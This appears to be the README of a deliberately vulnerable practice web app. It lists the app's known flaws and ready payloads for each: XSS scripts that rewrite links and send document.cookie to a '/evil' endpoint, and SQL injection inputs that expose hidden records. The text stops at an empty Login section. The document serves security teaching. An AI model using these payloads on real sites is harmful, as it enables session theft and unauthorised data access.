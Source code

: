 # Web Playground
A web application demonstrating web vulnerabilities. Testing XSS, script injection, SQL injection,...

# Known issues

Here is a list of all known voulnarbilities on the site

## Search

1. XSS: When displaying "You searched for <string>" the string is not properly
escaped.
   * Test for XSS: `<script> alert("XSS!") </script>`
   * Change all links: `Facebook <script> $(function(){$("a").attr("href", "/evil");}); </script>`
   * Steal cookies: `<script> $.get("/evil?save=cookie&cookie="+encodeURI(document.cookie)); </script>`
2. SQL Injection: SQL query is manually created and not properly escaped.
   * Test shows stack trace and actual code: `'`
   * See all hidden links: `aaa ' OR hide=1 OR hide='`

## Login

